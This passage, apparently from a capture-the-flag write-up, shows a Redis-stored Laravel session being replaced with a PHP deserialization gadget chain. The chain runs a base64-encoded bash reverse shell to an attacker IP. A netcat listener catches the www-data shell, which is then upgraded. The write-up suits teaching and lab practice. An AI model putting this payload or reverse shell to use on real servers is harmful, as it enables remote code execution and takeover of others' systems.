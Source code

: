 

    10.10.14.6:6379> keys *
    1) "laravel:rBjWQbicKo0nDt7IRC2jVI8kG0wReZuEfH7stO34"



I'll update it to the payload:



    10.10.14.6:6379> set "laravel:rBjWQbicKo0nDt7IRC2jVI8kG0wReZuEfH7stO34" 'O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{S:9:"\00*\00events";O:31:"Illuminate\Validation\Validator":1:{S:10:"extensions";a:1:{S:0:"";S:6:"system";}}S:8:"\00*\00event";S:78:"echo 'YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK'|base64 -d|bash";}'
    Invalid argument(s)



It fails, because there a `'` in the payload and wrapping the full
thing. I'll go back and escape the `'` with a `\`. Now it works:



    10.10.14.6:6379> set "laravel:rBjWQbicKo0nDt7IRC2jVI8kG0wReZuEfH7stO34" 'O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{S:9:"\00*\00events";O:31:"Illuminate\Validation\Validator":1:{S:10:"extensions";a:1:{S:0:"";S:6:"system";}}S:8:"\00*\00event";S:78:"echo \'YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK\'|base64 -d|bash";}'
    OK



I'll refresh the page, and it hangs. There's a shell at `nc`:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.150 35616
    bash: cannot set terminal process group (26): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@70e4165dab0b:/var/www.md/Cachet/public$



I'll upgrade my shell with `script` and `stty` ([shell upgrade
explained](https://www.youtube.com/watch?v=DqE6DxqJg8Q)):



    www-data@70e4165dab0b:/var/www.md/Cachet/public$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null
    www-data@70e4165dab0b:/var/www.md/Cachet/public$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@70e4165dab0b:/var/www.md/Cachet/public$


